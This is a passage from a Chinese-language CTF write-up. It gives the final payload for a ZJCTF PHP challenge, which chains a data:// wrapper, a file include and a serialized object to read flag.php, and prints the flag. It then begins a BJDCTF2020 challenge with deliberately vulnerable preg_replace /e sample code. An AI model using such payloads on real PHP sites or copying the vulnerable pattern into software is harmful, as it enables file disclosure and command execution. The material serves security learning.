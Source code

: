 #### Flag获取

最后将所有得到的结果汇总得到最后的`payload`

注意：此时`$file`需要包含的文件是`useless.php`

```
payload：?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

![image-20230708103744074](CTF.assets/image-20230708103744074.png)

```
flag{c087096a-0274-464c-a6c9-93c4d0596c2c}
```

## [BJDCTF2020]ZJCTF，不过如此

### 前置知识

#### PHP正则表达式`e`模式命令执行漏洞

##### 示例代码

```php
<?php
function complexStrtolower($regex, $value){
    return preg_replace('/('.$regex.')/ei', 'strtolower("\\1")', $value);
}

# 遍历 $_GET 数组
foreach ($_GET as $regex => $value){
    echo complexStrtolower($regex, $value)."\n";
}
```

##### `preg_replace()`函数
